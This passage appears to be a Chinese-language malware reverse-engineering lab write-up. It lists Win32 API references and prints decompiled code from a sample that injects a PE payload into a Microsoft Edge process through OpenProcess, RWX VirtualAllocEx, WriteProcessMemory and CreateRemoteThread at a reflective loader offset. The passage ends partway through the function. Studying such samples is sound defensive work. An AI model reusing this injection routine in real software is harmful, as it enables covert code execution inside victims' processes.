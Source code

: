 # Simple Reverse - 0x21(2023 Lab - WinMalware - Extract Next Stage Payload - 3)
## Background
* [VirtualAllocEx](https://learn.microsoft.com/zh-tw/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [記憶體保護常數](https://learn.microsoft.com/zh-tw/windows/win32/Memory/memory-protection-constants)
* [WriteProcessMemory](https://learn.microsoft.com/zh-tw/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [CreateRemoteThread](https://learn.microsoft.com/zh-tw/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* Export Address Table(EAT)
    > ![](https://hackmd.io/_uploads/rJuBbwaGT.png)
    > ![](https://hackmd.io/_uploads/HJEI-P6zp.png)
    > ![](https://hackmd.io/_uploads/S1Qu-PTM6.png)
## Source code
:::spoiler Source Code `sub_140001A60`
```cpp
__int64 __fastcall sub_140001A60(DWORD edge_pid, const void *pe_file, SIZE_T pe_file_size)
{
  DWORD v4; // eax
  DWORD LastError; // eax
  HANDLE hProcess; // [rsp+40h] [rbp-38h]
  char *lpBaseAddress; // [rsp+48h] [rbp-30h]
  LPTHREAD_START_ROUTINE lpStartAddress; // [rsp+50h] [rbp-28h]
  __int64 v9; // [rsp+58h] [rbp-20h] BYREF
  DWORD ThreadId; // [rsp+60h] [rbp-18h] BYREF

  v9 = 0i64;
  sub_1400018F0(pe_file, &v9);
  if ( v9 )
  {
    hProcess = OpenProcess(0x43Au, 0, edge_pid);
    if ( hProcess )
    {
      lpBaseAddress = (char *)VirtualAllocEx(hProcess, 0i64, pe_file_size, 0x3000u, 0x40u);
      if ( WriteProcessMemory(hProcess, lpBaseAddress, pe_file, pe_file_size, 0i64) )
      {
        lpStartAddress = (LPTHREAD_START_ROUTINE)&lpBaseAddress[v9];
        CreateRemoteThread(hProcess, 0i64, 0i64, (LPTHREAD_START_ROUTINE)&lpBaseAddress[v9], 0i64, 0, &ThreadId);
        sub_140001260("remote thread id: %lu, loader address: %p", ThreadId, lpStartAddress);
        return 1i64;
      }
      else
      {
        LastError = GetLastError();
        sub_140001260("WriteProcessMemory failed, %lu", LastError);
        return 0i64;
      }
    }
    else
    {
      v4 = GetLastError();
      sub_140001260("OpenProcess failed, %lu", v4);
      return 0i64;
    }
  }
  else
  {
    sub_140001260("get_reflectivce_loader_offset failed\n");
```